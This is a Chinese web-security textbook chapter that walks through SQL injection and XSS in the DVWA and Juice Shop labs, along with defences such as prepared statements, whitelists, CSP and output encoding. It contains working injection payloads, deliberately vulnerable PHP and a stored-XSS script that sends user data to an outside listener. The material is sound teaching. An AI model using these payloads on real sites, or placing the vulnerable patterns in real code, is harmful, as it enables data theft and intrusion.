


# 第五章　Web 实战：注入与跨站

登录框里输入 `'` 之后页面白屏，或者报出一行 SQL 语法错误，这是很多人第一次看见自己的输入被当成代码执行的时刻。这个现象本身没什么技术含量，难的是后面那几步。要知道看到的是哪一种注入，要知道库里有几张表，要知道盲注时该等几秒，还要知道为什么开发把 `'` 转义了之后漏洞还在。

另一边是跨站。提交一个 `<script>alert(1)</script>`，弹窗出来，截图存证，很多人到这里就结束了。弹窗证明的是"脚本在你的页面里执行了"，它不证明任何危害。危害在于这个脚本跑在了目标站点的源（origin）里，它能看到这个站点给你的一切。

这两类漏洞出现的时间比现在大多数框架都早，至今仍排在各类榜单的前列。原因不是防御手段不存在，而是防御手段放错了位置。

## 5.1 两个靶场的分工

动手之前先搭环境。所有操作在本地虚拟机的容器里，靶场不出实验网。前面搭好的实验环境已经够用，这里只加两个容器。

```bash
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
docker run -d --name juice -p 3000:3000 bkimminich/juice-shop
```

DVWA 打开是 `http://10.10.10.30:8080`，默认账号 `admin`，密码 `password`。登录之后第一件事是进 `Setup` 点一次 `Create / Reset Database`，再进 `DVWA Security` 把难度调到 `low`。

Juice Shop 在 `http://10.10.10.30:3000`，注册一个账号就能用。它是完整的电商应用，搜索、购物车、评论、后台都有，漏洞混在业务流程里，没有任何提示。

这两个靶场的用途不一样，别混着用。

DVWA 是分模块的。SQL Injection 一个页面，XSS 一个页面，每类漏洞单独一份代码，而且同一段代码有四档难度。它的价值在这里，你可以把 `low` 和 `impossible` 两档的源码并排放着看，直接看出防御加在了哪一行。学习阶段用它最快。

Juice Shop 是整站。唯一的提示是一个记分板（score board），它只告诉你"还有 20 个挑战没解出来"，不告诉你在哪个页面。要找到漏洞得顺着业务流走一遍，从搜索框到订单接口到前端路由。这种经验更接近真实授权测试，因为真实的系统也不会给你一页一页的练习题。

两个都跑起来，先做 DVWA 建立手感，再去 Juice Shop 找那种“漏洞藏在业务里”的感觉。

容器跑起来之后拍一张快照，靶场数据破了自己回滚，不要花时间修。两个靶场都不要做端口映射到宿主机以外的网卡，实验网和真实网之间必须断开。这不是保守，靶场里的漏洞是真的，谁扫到都能用。

## 5.2 SQL 注入的判断顺序

DVWA 的 SQL Injection 模块只有一个输入框，提交之后返回用户名。先看它对应的源码，知道自己在打什么。

```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($link, $query);
```

`$id` 原样拼进了字符串。这一行就是全部的漏洞成因，后面所有的技巧都是在这个前提下展开的。

第一个动作是打破语法。输入一个单引号。

```bash
curl -s "http://10.10.10.30:8080/vulnerabilities/sqli/?id=1%27&Submit=Submit" \
  --cookie "PHPSESSID=...; security=low"
```

页面上出现 `You have an error in your SQL syntax`，说明单引号被当成了字符串边界，它闭合了 `'$id'` 里的起始引号，后面的内容成了语法的一部分。到这里就可以下第一个结论，这个参数进了 SQL，而且没有经过处理。

第二个动作是把条件改成恒真，看返回的行数变化。

```text
1' AND '1'='1      →  返回 1 行
1' AND '1'='2      →  返回 0 行
```

差异出现，说明注入点在一个布尔表达式里，这个位置可以承载任意条件。这一步比报错更有价值，因为很多生产环境的报错被关掉了，你只能靠行为差异判断。

第三个动作是确定列数。`ORDER BY` 后面跟数字，按第几列排序，超出列数就会报错。

```text
1' ORDER BY 1 -- -     正常
1' ORDER BY 2 -- -     正常
1' ORDER BY 3 -- -     报错
```

两次正常一次报错，说明查询返回两列，正好对上 `first_name, last_name`。`-- -` 是 MySQL 的行注释，它把原语句后面那个多余的 `'` 注释掉。写成 `--` 后面必须跟一个空格，所以习惯上补一个 `-`，肉眼也能看出注释到哪儿结束。

顺序不能颠倒。先确认注入存在，再确认能承载条件，最后才确定列数。反过来的话，`ORDER BY` 报错可能来自参数类型不对，你分不清是注入失败还是语法错误。

注入点不在表单里也可能存在。URL 里的参数、请求头里的 `User-Agent`、cookie 里的字段，只要被拼进 SQL 就是注入点。DVWA 只给了你一个输入框，所以这些位置不会出现，但不代表它们不存在。看源码的时候关注的是拼接这个动作，不是参数来自哪里。

注释符在不同数据库上写法不同，报错的时候先确认自己用的是哪一个。MySQL 支持 `-- ` 和 `#`，Postgres 只认 `--`，Oracle 也是 `--`。某些环境会把 `#` 后面的内容当作锚点，于是 payload 被截断，你以为注入不存在。看到刷新后页面完全没变化，先把这三种符号各试一遍。

## 5.3 联合查询与两种盲注

列数知道了，接下来用 `UNION SELECT` 把别处的数据接到这个结果集里。语法要求两边列数相同、类型兼容，所以先用 `NULL` 占位，`NULL` 和任何类型都能对上。

```text
1' UNION SELECT 1,2 -- -
```

页面上会显示出 `1` 和 `2`，这两个数字出现在哪儿，就说明那一列的内容会回显到页面上。回显位置很重要，它决定了你能读到什么。

MySQL 的元数据放在 `information_schema` 里，库名、表名、列名都能查。

```text
1' UNION SELECT table_name, column_name FROM information_schema.columns
   WHERE table_schema=database() -- -
```

一次拿到的列可能很多，页面显示不下。加 `LIMIT` 分段，或者用 `GROUP_CONCAT` 一行拼起来。

```text
1' UNION SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables
   WHERE table_schema=database() -- -
```

回显这条路走不通的时候，才轮到盲注。盲注分两种。

布尔盲注是把判断塞进条件里，靠页面内容或状态码的变化一次读一个比特。

```text
1' AND ASCII(SUBSTRING((SELECT database()),1,1))>100 -- -
```

`>100` 成立返回正常页，不成立返回空页。二分法下，一个字节八次请求，一个库名几十次请求。慢，但可靠。

时间盲注在页面完全一样的时候用。它不改变内容，只改变耗时。

```text
1' AND IF(SUBSTRING((SELECT database()),1,1)='d', SLEEP(3), 0) -- -
```

判断耗时要先做基线。同一个请求连发五次，记下中位数，再看注入了 `SLEEP` 的那次是不是稳定多出三秒。

```bash
for i in 1 2 3 4 5; do
  curl -s -o /dev/null -w "%{time_total}\n" "$URL"
done
```

网络抖动大的时候，单次测量没有意义。把 `SLEEP` 的时间拉长到三秒以上，让信号远大于噪声，代价是总耗时成倍增加。一次完整的库名枚举可能要十几分钟，这属于正常范围，不是脚本卡住了。

盲注脚本里最值得写的不是注入逻辑，是重试和日志。每一次请求的结果都落盘，脚本崩了能从断点续。写这类脚本的人都知道，跑到第七分钟断掉一次有多烦。

工具和手工的边界也在这里。`sqlmap` 能自动跑完上面所有步骤，它的判断逻辑本质上就是这几步的集合。但它给不了你两个东西，一个是“为什么这个位置能注入”的解释，一个是失败时的定位能力。刚上手时可以拿它和手工结果对一遍，看它报了哪些参数、用了哪种技术，对不上就说明你的判断漏了一步。对完之后关掉它，自己再跑一遍。

## 5.4 参数化查询为什么防得住

<figure>

<figcaption>图 5-1　同一个参数位置，输入不同，语句的结构完全不同。上图里输入只是一个值，下图里那个引号闭合了字面量，后面的内容被解析成了语法，末尾的条件则被注释吞掉。</figcaption>
</figure>

图上的区别值得盯着看一会儿。防御的目标不是"让输入里不含引号"，而是"让输入不管含什么，都只能待在值的位置上"。

参数化查询（prepared statement）做的就是这件事。它把一条语句拆成两步送。

```sql
PREPARE stmt FROM 'SELECT first_name, last_name FROM users WHERE user_id = ?';
SET @id = '1'' OR 1=1 -- -';
EXECUTE stmt USING @id;
```

第一步送的是模板，里面只有占位符。数据库在这个时刻完成词法分析和语法分析，生成的执行计划里，那个位置已经被标记成"一个值"。第二步送的是数据，数据不参与解析。哪怕它里面有一堆引号和 `UNION`，对数据库来说也只是一串字符。

关键在于解析和执行之间有时间差，而参数是在解析之后才到的。SQL 注入的本质是数据和语法混在同一个字符串里，让解析器无法区分；参数化把两者分开，解析器就再没有机会被误导。

PHP 里的 PDO 默认并不总是真的走服务端预处理。

```php
$pdo = new PDO($dsn, $user, $pass, [
    PDO::ATTR_EMULATE_PREPARES => false,
]);
```

`ATTR_EMULATE_PREPARES` 为 `true` 时（某些版本的默认值），PDO 在客户端把参数拼进语句再发出去，等同于自己做了一次转义。转义做对了也没事，但拼接这一步引入了字符集相关的风险，宽字节编码下曾经出过问题。关掉模拟，让数据库自己处理，是更稳的选择。

还有一个地方参数化管不到。表名、列名、`ORDER BY` 的方向不能当参数绑定，因为这些位置在解析阶段就要确定。开发想动态排序的时候，常见的写法是字符串拼接。

```php
$sql = "SELECT * FROM users ORDER BY " . $_GET['sort'];
```

这段代码里的注入用参数化救不了，只能用白名单。

```php
$allowed = ['id', 'name', 'created_at'];
$sort = in_array($_GET['sort'], $allowed, true) ? $_GET['sort'] : 'id';
```

白名单不是“过滤危险字符”，是“只接受列出来的值”。区别在于前者永远在追赶攻击者的想象力，后者只需要列清单。

ORM 也一样。平时用 ORM 拼查询是安全的，但它都留了一个口子给原生 SQL，叫 `raw` 或者 `extra`。这个口子用的就是字符串拼接，参数化在这里不生效。审计代码时搜这几个关键字，命中处逐个看，比看完整个模型层快得多。

## 5.5 XSS 的三种形态

<figure>

<figcaption>图 5-2　XSS 的四个阶段与三个可以拦截的位置。反射、存储、DOM 的差别在前两步，后面的解析与执行完全一样。</figcaption>
</figure>

XSS 的判断比 SQL 注入简单，因为结果很直观。麻烦的是分清形态，因为三种形态的验证方法和修复位置都不同。

反射型（reflected）最简单，payload 在请求里，服务端把它原样写回页面。DVWA 的 XSS Reflected 页面就是这种。

```text
http://10.10.10.30:8080/vulnerabilities/xss_r/?name=<script>alert(document.domain)</script>
```

页面回来的时候脚本标签还在，浏览器解析到它，执行。这里用 `alert(document.domain)` 而不是 `alert(1)`，因为前者能证明代码运行在哪个源里，这个信息比弹窗本身重要。

存储型（stored）的 payload 落在数据库或者文件里，之后每个访问者都会触发。DVWA 的 XSS Stored 页面是一个留言板，提交之后留言被存下来，页面加载时原样输出。

```html
<script>fetch('/api/me').then(r=>r.text()).then(t=>fetch('http://10.10.10.99/?d='+btoa(t)))</script>
```

这段代码的目的是证明"同源下的脚本能做什么"，它读取当前用户的资料再发出去。在自己搭的靶场里跑，接收端是自己开的监听。真实环境里做这一步就是拿数据，性质完全不同。

DOM 型（DOM-based）不经过服务端。服务端的响应里根本没有 payload，是前端 JavaScript 把它从 `location.hash` 或者 `location.search` 里取出来，塞进 `innerHTML`。

```javascript
document.getElementById("out").innerHTML =
  decodeURIComponent(location.hash.slice(1));
```

这种漏洞用抓包看不到，因为请求和响应都是干净的。判断方法是在浏览器里打断点，看数据从 `location` 流到 `innerHTML` 的路径。`innerHTML`、`outerHTML`、`document.write`、`eval` 是几个常见的汇点（sink）。

存储型的验证比反射型讲究。payload 会留下来，所以每一条都带一个只属于你的标记，比如留言里写上自己的工号和日期，验证完回头把这几条删干净。在一个还有别人在用的靶场里乱插 payload，结果就是所有人的页面都弹窗，你分不清是谁的。

弹窗只是证明执行，危害要看上下文。脚本跑在目标站点的源里，能读这个源下的 DOM，能带着用户的 cookie 发请求，能改页面上的任何内容。一个后台页面上的存储型 XSS，等于让攻击者以管理员的身份操作后台，不需要知道管理员密码。

`HttpOnly` 能挡住一部分。它让 `document.cookie` 读不到这个 cookie，于是脚本没法直接把会话 ID 发走。挡不住的部分更多。站点自己的接口仍然可以被脚本调用，因为请求自动带 cookie；页面里的 CSRF token 仍然能被读出来；键盘输入和页面内容仍然能被监听。所以 `HttpOnly` 是减损，不是修复。

CSP（content security policy）是另一层。一个有效的策略长这样。

```text
Content-Security-Policy: script-src 'self' 'nonce-r4nd0m'; object-src 'none'
```

`script-src 'self'` 只允许加载本站脚本，内联的 `<script>` 直接被拒。`nonce` 让服务端为每份响应签发一个随机值，只有带这个值的标签才执行。这两个条件加起来，注入的 `<script>` 既不在白名单里，也猜不到 nonce。

CSP 写错就形同虚设。`'unsafe-inline'` 会让内联脚本重新生效，`script-src *` 等于没写，把 `unsafe-eval` 打开则允许 `eval` 和 `Function`。还有一个常见漏洞是只配了 `script-src` 而忘了 `default-src`，于是 `object-src`、`base-uri` 这些没人管，攻击者换一个标签照样能打。

## 5.6 输出编码加在哪一层

同一个字符串，放在 HTML 正文里、放在属性里、放在 `<script>` 里，需要转义的字符完全不同。

```php
// HTML 正文与带引号的属性
htmlspecialchars($s, ENT_QUOTES | ENT_HTML5, 'UTF-8');

// 放进 JS 字符串，转义成 \uXXXX 或 \xXX
json_encode($s, JSON_HEX_TAG | JSON_HEX_AMP | JSON_HEX_APOS | JSON_HEX_QUOT);

// 放进 URL 参数
urlencode($s);
```

在 HTML 正文里，`<` 和 `&` 必须转义，`htmlspecialchars` 做的就是这个。在属性里，引号也必须转义，否则一个 `"` 就能闭合属性再加一个事件处理器。在 `<script>` 块里，`</script>` 会提前结束脚本块，`<` 必须转成 `\u003c`，这就是 `JSON_HEX_TAG` 的作用。

编码要放在输出点上，不要放在输入点上。输入点编码的问题在于，同一份数据可能被输出到好几个地方，每个地方需要的编码不一样；在入口编码一次，等于替所有未来的上下文做了一个错误的决定。而且入口编码之后数据就变了，搜索、排序、长度校验全部会被影响。

模板引擎的自动转义也要看清楚它的边界。多数引擎默认只转义变量插值，一旦进了“原样输出”的语法就失效。而且它转义的是 HTML 上下文，把数据放进 `onclick` 属性或者 `<script>` 里仍然需要另一套处理。引擎帮你挡住的是最常见的那一种，不是全部。

输入点该做的是另一件事，校验。长度、字符集、格式，这些是业务规则，用白名单表达。一个用户名的字段只接受字母数字和下划线，那么所有古怪的 payload 在进门时就被拒了。但它不能替代输出编码，因为有些字段天生要接受自由文本，留言、评论、个人简介都属于这一类。

DVWA 的 `impossible` 档把两件事都做了，值得对照着看一遍。

```php
$stmt = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id;');
$stmt->bindParam(':id', $id, PDO::PARAM_STR);
$stmt->execute();
```

```php
echo '<pre>';
echo htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
echo '</pre>';
```

一句是参数化，一句是输出编码，各自解决自己的那一半问题。框架时代这两件事大多被默认做好了，但默认值会被人关掉，`{!! !!}`、`v-html`、`dangerouslySetInnerHTML` 都是主动关掉的开关。看到这些标记，就知道该去检查那一段数据是从哪儿来的。

注入和跨站都属于"用户输入越过了它该待的位置"。下一类问题的方向相反，是服务端主动跑去了它不该去的地方。
